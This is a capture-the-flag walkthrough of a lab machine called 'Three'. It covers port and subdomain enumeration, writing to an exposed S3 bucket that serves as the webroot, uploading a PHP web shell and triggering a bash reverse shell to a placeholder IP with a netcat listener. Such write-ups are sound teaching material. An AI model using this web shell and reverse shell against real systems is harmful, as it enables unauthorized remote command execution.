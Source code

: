 # Three
#startingpoint 
#veryeasy 
#web
#php
#aws

### Reconnaissance
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are two open ports,  port 22 running ssh service and also port 80 running a Apache webserver.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:43 CET
Nmap scan report for 10.129.79.254
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Exploring the website
Since we found an standard web open port, we try to enter the website. 
After performing a manual research on the website we can find a domain in the contacts part which is `thetoppers.htb`

We need to explore more information with this domain so we add it to /etc/hosts with the following command `echo "${TARGET} thetoppers.htb" | sudo tee -a /etc/hosts`

### Subdomain discover
One thing that we must try once we have a domain is search if there are any associated common subdomains, in order to do this we execute the following command

`gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb`

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://thetoppers.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2023/11/16 12:17:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb (Status: 404) [Size: 21]
Found: gc._msdcs.thetoppers.htb (Status: 400) [Size: 306]
                                                         
===============================================================
2023/11/16 12:17:51 Finished
===============================================================
```
We found a subdomain which returns a 404 error, so as we did before we add it to /etc/hosts, to do it we use this command `echo "${TARGET} s3.thetoppers.htb" | sudo tee -a /etc/hosts`
### AWS S3 website
As we did before we enter the new website, it says that is running so we do a little of research to find that we are working with a AWS S3, this is used as a storage service, in this particular case as a webserver. To interact with it we need to use the `aws` terminal tool, once we have the tool installed we need to setup it so we use the following command.

```
aws configure
AWS Access Key ID [None]: tmp
AWS Secret Access Key [None]: tmp
Default region name [None]: tmp
Default output format [None]: tmp
```
Once the aws cli is setup we can perform commands, first of all we want to know all the S3 endpoints so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls`
```
2023-11-16 11:42:35 thetoppers.htb

```
It seems that there is only one endpoint so now we are going to explore this one, to do so we run `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`
```
                          PRE images/
2023-11-16 11:42:35          0 .htaccess
2023-11-16 11:42:35      11952 index.php
```
We discover that the S3 is acting as the webroot, given this fact and the fact that we can do whatever we want to with the S3, we can upload a malicious code that let us run remote commands on the server. As the webserver is running .php we need to write the code in PHP, the following code allow us to run commands from the web url:

`<?php system($_GET["cmd"]); ?>`

Once written the code to a file `shell.php` we can upload it to the AWS S3 by running `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

To test it we can access the following url to test if we run commands as the webserver user, `http://thetoppers.htb/shell.php?cmd=id`

### Reverse shell

Now that we are allowed to run commands we are going to get a reverse shell on the server, to do this first we write the reverse shell code, it looks like this:
```
#!/bin/bash 
bash -i >& /dev/tcp/MYVPNIP/1337 0>&1
```

Once we have created the script we can upload it to the server as shown before, by running `aws --endpoint=http://s3.thetoppers.htb s3 cp reverseShell.sh s3://thetoppers.htb`

Now we need to start a listener in our machine, to do so execute `nc -nvlp 1337`

To start the reverse shell we can enter in the following url `http://thetoppers.htb/shell.php?cmd=cat%20reverseShell.sh|bash`

Once inside the reverse shell we can run the following commands to obtain the desired flag value
```
ls
cd ..
ls
cat flag.txt
```
After getting the flag we can finally clean our pentesting environment by removing the written scripts and deleting the new domains of /etc/hosts

